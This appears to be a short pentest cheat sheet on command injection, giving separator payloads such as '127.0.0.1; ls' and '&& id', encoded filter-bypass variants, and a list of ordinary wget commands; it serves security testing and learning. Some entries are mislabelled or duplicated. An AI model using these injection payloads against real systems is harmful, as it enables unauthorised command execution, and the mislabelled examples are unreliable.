 ```yaml
---
description: Can upload files revsre shell
---
```


# Command injection

## Basic Command Injection

The simplest way is by inserting a command separator to chain additional commands. These are typical in Unix-based systems, but Windows has its own variations.

**Semicolon (`;`)**: Executes commands sequentially.

```bash
127.0.0.1; ls
```

**Semicolon (`;`)**: Executes commands sequentially.

```bash
127.0.0.1 && id
```

**Double pipe (`||`)**: Executes the second command only if the first one fails.

```bash
127.0.0.1 || id
```

**Pipe (`|`)**: Sends the output of one command as the input to the next.

```bash
127.0.0.1 | ls
```

## Bypassing Input Filters

**Base64 Encoding**: Some filters might not check for base64-encoded payloads.

```bash
echo "LS0gY2F0IC9ldGMvYXBwYWdlX2ZpbGU=" | base64 -d
```

**URL Encoding**: Certain characters might be URL-encoded (`%3B` for `;`, `%26` for `&`, `%7C` for `|`).

```bash
127.0.0.1%3B id
```

**Double URL Encoding**: Encode characters multiple times to bypass filters that decode only once.

```bash
127.0.0.1%253B id
```

**Hexadecimal Encoding**: Some filters don't properly decode hexadecimal characters.

```bash
127.0.0.1%3B id
```

{% embed url="https://www.youtube.com/watch?v=kiP12PrXOZA" %}

## Wget

🔹 **Basic Syntax**

```bash
wget [options] [URL]
```

**Download a Single File**

```bash
wget https://example.com/file.zip
```

Download Multiple Files

```bash
wget -i urls.txt
```

⚙️ **FTP and Proxy Use**

Download from FTP with Credentials

```bash
wget ftp://username:password@ftp.example.com/file.txt
```

Use a Proxy

```bash
wget -e use_proxy=yes -e http_proxy=http://proxyserver:port https://example.com
```

🧪 **Advanced Usage**

Spider Mode (Check Links Without Downloading)

```bash
wget --spider https://example.com
```
